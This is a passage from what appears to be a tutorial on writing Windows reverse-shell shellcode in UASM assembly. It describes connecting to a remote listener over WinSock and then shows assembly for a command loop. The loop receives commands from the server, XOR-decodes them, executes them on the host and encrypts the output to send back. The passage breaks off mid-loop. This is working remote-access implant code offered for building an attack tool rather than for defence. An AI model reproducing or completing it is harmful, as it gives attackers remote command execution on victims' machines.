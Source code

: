 In this code, we perform the setup tasks of initializing the WinSock library, creating a socket object, setting up the address information of the target server, and initiating the connection. If all goes well, `connect` will not return an error if the connection succeeded.

#### Command Loop

Now that we have a connection to the listener, we need to enter a loop. Recall we are defining three command options for this shellcode:

1. Exec
2. Wait
3. Exit

This means that inside the loop, we need to:

- Receive data from the server
- Check the command type
- Branch to handle each command type

The major branches will look like this
- In the case of `wait` we will just call the WinAPI `Sleep` function and return to the head of the loop.
- In the case of `exit`, we will shutdown the socket and WinSock library, and return.
- In case of `exec`, decode the command buffer appended to the message received from the server, execute it, encode the result, and send it back

Thanks to UASMs loop macros, we can achieve all of this very easily:

```asm
        mov retries, 0
        .while retries < max_retries -1
            invoke RtlZeroMemory, addr command_message, sizeof command_message

            ; Receive instructions from the command server
            invoke recv, dw_socket, addr command_message, sizeof command_message, 0
            .if eax == socket_error || eax == 0
                mov eax, retries
                inc eax
                mov retries, eax
                jmp _wait
            .endif

            ; Check what command was sent
            lea rax, command_message
            cmp [rax].shellcode_msg.command, cmd_wait
            je _wait
            cmp [rax].shellcode_msg.command, cmd_exit
            je _exit
            cmp [rax].shellcode_msg.command, cmd_exec
            je _exec
            .continue
        _exec:
            ; Decode the command buffer 
            invoke xor_cipher, addr command_message.shellcode_msg.buffer, command_message.shellcode_msg.key, command_message.shellcode_msg.buffer_length

            ; Execute the command
            invoke system_exec, addr command_message.shellcode_msg.buffer, addr output_buffer
            .if eax == status_failure
                mov eax, retries
                inc eax
                mov retries, eax
                jmp _wait
            .endif

            ; Encrypt the response
            mov bytes_read, eax
```